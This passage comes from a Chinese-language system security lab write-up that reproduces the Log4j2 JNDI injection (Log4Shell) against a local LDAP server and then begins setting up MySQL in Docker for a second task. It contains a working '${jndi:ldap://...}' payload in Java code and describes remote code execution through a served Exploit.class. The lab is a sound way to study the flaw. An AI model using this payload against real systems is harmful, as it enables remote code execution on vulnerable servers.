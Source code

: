 接下来完善服务程序，进行 log4j2 的 log：

```java
package com;
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j {
    private static final Logger LOGGER = LogManager.getLogger(Log4j.class);
    public static void main(String[] args) {
        System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        LOGGER.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}
```

然后在 Log4j2Vul/Log4j2Ldap 文件夹中构建并运行：

```shell
cd Log4j2Vul/Log4j2Ldap
mvn clean package
java -jar target/lab-0.0.1-SNAPSHOT.jar
```

<div style="text-align: center;">
<img src="/assets/images/sec/syssec/lab1/img1.png" width="100%" style="margin: 0 auto;">
</div>

可以发现在运行的时候服务程序进行了 error 记录，在输出的时候访问了该 LDAP 服务，LDAP 服务将本次 python HTTP 服务的 Exploit.class 返回给服务器运行，从而触发了 Exploit.java 中的任意命令执行，打开了计算器实现了 RCE。具体流程后续思考题中分析。

### Task 2：项目中触发

先配置 mysql 环境，我使用 docker 来运行 mysql：

```shell
docker pull mysql:latest
docker run -it -d --name mysql_syssec -p 3306:3306 -e MYSQL_ROOT_PASSWORD=aaaaaa mysql
docker exec -it mysql_syssec bash
```

进入 docker 后通过 cat > /wj.sql 将 wj.sql 的内容拷贝到容器中，然后进入数据库：

```sql
bash-5.1# mysql -h localhost -u root -p
Enter password: aaaaaa
...
mysql> create DATABASE wj;
Query OK, 1 row affected (0.01 sec)

mysql> use wj;
Database changed
mysql> source /wj.sql
```

即可完成数据库的配置。
